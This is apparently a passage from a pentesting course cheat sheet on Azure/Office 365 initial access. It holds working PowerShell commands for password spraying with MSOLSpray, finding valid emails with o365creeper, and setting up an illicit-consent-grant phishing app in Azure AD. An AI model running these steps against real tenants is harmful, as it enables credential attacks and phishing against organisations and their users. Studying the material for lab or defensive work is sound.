 # Initial access attacks

* [Password spraying](#Password-spraying)
* [Illicit Consent Grant phishing](#Illicit-Consent-Grant-phishing)
* [Insecure file upload](#Insecure-file-upload)
* [Server Side Template Injection](#Server-Side-Template-Injection)
* [OS Command injection](#OS-Command-injection)
* [Storage account](#Storage-account)
* [Phishing Evilginx2](#Phishing-Evilginx2)

## Password spraying

* <https://github.com/dafthack/MSOLSpray>

* <https://github.com/ustayready/fireprox>

```powershell
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList validemails.txt -Password <PASSWORD> -Verbose
```

### Find valid emails

* Explained in Recon or use the command below

```powershell
C:\Python27\python.exe o365creeper.py -f emails.txt -o validemails.txt
```

## Illicit Consent Grant phishing

### Create a application

* Login to the Azure portal and in the left menu go to 'Azure Active Directory' --> 'App registrations' and click 'new registration'

* Set a application name and choose 'Accounts in any organizational directory (Any Azure AD Directory - Multitenant'
* Use the URL of the student VM in the URI (<https://xx.xx.xx.xx/login/authorized>)
* In the left menu go to 'Certificates & Secrets' and create a new client secret and copy it.
* In the left menu go to 'API permissions' and add the 'user.read' and 'User.ReadBasic.All' for the Microsoft Graph.

#### Check if users are allowed to consent to apps

```powershell
Import-Module AzureADPreview.psd1

#Use another tenant account
$passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<USERNAME>", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole

#output should be
ManagePermissionGrantsForSelf.microsoft-user-default-legacy
```
